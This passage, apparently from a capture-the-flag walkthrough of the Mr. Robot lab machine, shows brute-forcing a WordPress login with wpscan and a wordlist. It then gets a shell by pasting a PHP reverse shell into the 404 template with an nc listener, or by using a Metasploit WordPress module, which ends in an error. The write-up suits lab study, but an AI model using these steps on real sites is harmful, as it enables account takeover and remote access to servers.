 F=is incorrect sets fail point that is referenced in the error message when a wrong password is entered	


Option 2:

		wpscan -u elliot -P [sorted_fsociet.dic]

-u sets user as elliot, and -P sets password lists. syntax is easier, but enumeration on user id's is limited, so you must have a user id if unique user. It will check against admin etc. wpscan


[wp-username] = elliot 
[wp-pasword] = ER28-0652


Now we can log into wordpress. 


Forward Facing Application Leverage and generate damion shell:

Option #1

Log into wordpress application

Applications>edit>Edit 404 page template

Reverse Shell on the 404 page

php reverse shell code: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

php reverse shell, changed [attacker-ipaddress]/[port]

		nc -lvnp 443

net cat -listen, verbose, skip dns lookup, port [port]

Go back to the website, and place an incorrect url to trigger the 404 page, which in turns activates the reverse shell. 

WE ARE IN THE TERMINAL 

now in bin/sh$

Option #2

metasploit
		msfconsole
		
		search wordpress shell
		
		use 1
		
		show options
		
		set username [wp-username]
		
		set password  [wp-password]
		
		set rhost [targetip]
		
		exploit

ERROR
		
